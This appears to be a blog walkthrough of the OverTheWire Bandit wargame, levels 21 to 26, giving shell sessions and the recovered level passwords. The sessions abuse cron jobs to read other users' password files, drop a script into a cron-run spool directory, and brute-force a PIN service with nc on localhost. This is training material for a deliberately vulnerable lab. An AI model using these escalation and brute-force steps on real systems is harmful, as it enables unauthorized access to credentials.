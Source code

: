 ```yaml
---
layout: post
title: "OverTheWire: Bandit 21-26"
date: 2016-10-21 12:00:00
share: true
comments: true
tags: overthewire bandit
---
```


## Bandit 21

Very easy level, you'll need to read about cron, but for now first paragraph of this [link ](https://help.ubuntu.com/community/CronHowto)will do:

```
 "Cron is a system daemon used to execute desired tasks (in the background) at
 designated times.
 
 A crontab file is a simple text file containing a list of commands meant to be
 run at specified times. It is edited using the crontab command. The commands
 in the crontab file (and their run times) are checked by the cron daemon,
 which executes them in the system background."
```

First, let's see which cron job is being executed for bandit 22:


```console
bandit21@melinda:~$ cd /etc/cron.d
bandit21@melinda:/etc/cron.d$ ls
behemoth4_cleanup cronjob_bandit23    leviathan5_cleanup  natas-session-toucher natas25_cleanup~ php5    semtex0-ppc vortex0
cron-apt      cronjob_bandit24    manpage3_resetpw_job natas-stats      natas26_cleanup  semtex0-32 semtex5   vortex20
cronjob_bandit22  cronjob_bandit24_root melinda-stats     natas25_cleanup    natas27_cleanup  semtex0-64 sysstat

bandit21@melinda:/etc/cron.d$ cat cronjob_bandit2
cat: cronjob_bandit2: No such file or directory
bandit21@melinda:/etc/cron.d$ cat cronjob_bandit22
* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
```

What does `/usr/bin/cronjob_bandit22.sh` do?

```console
bandit21@melinda:/etc/cron.d$ cat /usr/bin/cronjob_bandit22.sh
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```

First line after the sha-bang gives the temp file the following permissions: user can write, anyone can read. So we're able to read the content of that file.
Second line copies the content of /etc/bandit_pass/bandit22 (containing our password) to the temporary file. Check it's content and you'll find the password to the next level!

Password: `Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI`

___________________________________________

## Bandit 22

Same steps as earlier, let's see what the script /usr/bin/cronjob_bandit23.sh
does:

```console
bandit22@melinda:/etc/cron.d$ cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash
myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"
cat /etc/bandit_pass/$myname > /tmp/$mytarget
```

So we need to get the MD5 encoding of $target (which is "I am user bandit23"),
then read the content of `/tmp/MD5output`:

```console
bandit22@melinda:/etc/cron.d$ md5sum <<< $(echo I am user bandit23)
8ca319486bfbbc3663ea0fbe81326349 -
bandit22@melinda:/etc/cron.d$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
bandit22@melinda:/etc/cron.d$
```

___________________________________________

## Bandit 23

More of the same, let's see what the script does:

```console
bandit23@melinda:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
if [ "$i" != "." -a "$i" != ".." ];
then
echo "Handling $i"
timeout -s 9 60 "./$i"
rm -f "./$i"
fi
done
```

So it navigates to `/var/spool/bandit24` directory and executes all scripts as bandit24. Alright, so we need to make it write the content of `/etc/bandit_pass/bandit24` somewhere, maybe a temporary file? Make sure you give the script and the folder the correct permissions.

```console
bandit23@melinda:/etc/cron.d$ mkdir /tmp/somefunnyname
bandit23@melinda:/etc/cron.d$ chmod 777 /tmp/somefunnyname
bandit23@melinda:/etc/cron.d$ cd /tmp/somefunnyname
bandit23@melinda:/tmp/somefunnyname$ cat > torun.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/somefunnyname/password
^C
bandit23@melinda:/tmp/somefunnyname$ chmod 777 torun.sh
bandit23@melinda:/tmp/somefunnyname$ cp torun.sh /var/spool/bandit24/
bandit23@melinda:/tmp/somefunnyname$ ls -al /var/spool/bandit24/
total 153
drwxrwxrwx 2 bandit24 bandit23 151552 Oct 21 23:08 .
drwxr-xr-x 6 root   root    4096 May 3 2015 ..
bandit23@melinda:/tmp/somefunnyname$ ls
password torun.sh
bandit23@melinda:/tmp/somefunnyname$ cat password
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

Script got deleted, which means cron executed it and we got our password!

___________________________________________

## Bandit 24

Our first bash for loop! You may want to read more about it [here](http://tldp.org/HOWTO/Bash-Prog-Intro-HOWTO-7.html).

First let's see how the daemon behaves. You'll realize it allows multiple input, we can create a list with format "&lt;password&gt; &lt;pin&gt;" for 0000-9999 and feed it to NC. Let's create a temp directory and navigate to it:

```console
bandit24@melinda:/tmp/abatchy24$ `for i in $(seq 0000 9999); do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >>list.txt; done  `
bandit24@melinda:/tmp/abatchy24$ `head list.txt`
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 2
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 3
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 4
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 5
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 6
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 7
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 8
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9
bandit24@melinda:/tmp/abatchy24$ `tail list.txt`
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9990
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9991
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9992
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9993
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9994
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9995
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9996
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9997
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9998
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9999
bandit24@melinda:/tmp/abatchy24$ `nc -nv 127.0.0.1 30002 < list.txt | grep -v Wrong`
Connection to 127.0.0.1 30002 port [tcp/*] succeeded!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
Exiting.
```

Done.

___________________________________________

## Bandit 25

Just another SSH key, but you may want to look into /etc/passwd file...

___________________________________________

## Bandit 26

Research escaping restrcited shell ;)